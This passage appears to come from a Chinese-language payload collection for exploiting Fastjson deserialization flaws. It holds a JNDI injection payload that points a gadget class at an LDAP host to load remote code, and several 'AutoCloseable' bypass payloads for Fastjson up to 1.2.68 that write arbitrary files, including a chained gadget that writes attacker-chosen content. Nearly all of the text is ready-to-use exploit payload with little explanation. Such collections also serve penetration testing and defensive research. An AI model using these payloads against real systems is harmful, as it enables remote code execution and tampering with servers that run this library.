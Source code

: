     payload:
    
    ```java
    {
        "@type": "org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
        "jndiNames": "ldap://192.168.80.1:1389/Calc"
    }
    ```
    

## Fastjson <= 1.2.68 (无需`autoType`)

1. `AutoCloseable` 绕过 (文件写入)
    
    payload:
    
    ```java
    {
        "@type": "java.lang.AutoCloseable",
        "@type": "java.io.FileOutputStream",
        "file": "/tmp/pwned",
        "append": "false"
    }
    ```
    
    要写入内容
    
    ```java
    {
        "stream": {
            "@type": "java.lang.AutoCloseable",
            "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
            "targetPath": "/tmp/pwned.txt",
            "tempPath": "/tmp/temp.txt"
        },
        "writer": {
            "@type": "java.lang.AutoCloseable",
            "@type": "com.esotericsoftware.kryo.io.Output",
            "buffer": "cHduZWQ=",
            "outputStream": {
                "$ref": "$.stream"
            },
            "position": 5
        },
        "close": {
            "@type": "java.lang.AutoCloseable",
            "@type": "com.sleepycat.bind.serial.SerialOutput",
            "out": {
                "$ref": "$.writer"
            }
        }
    }
    ```
    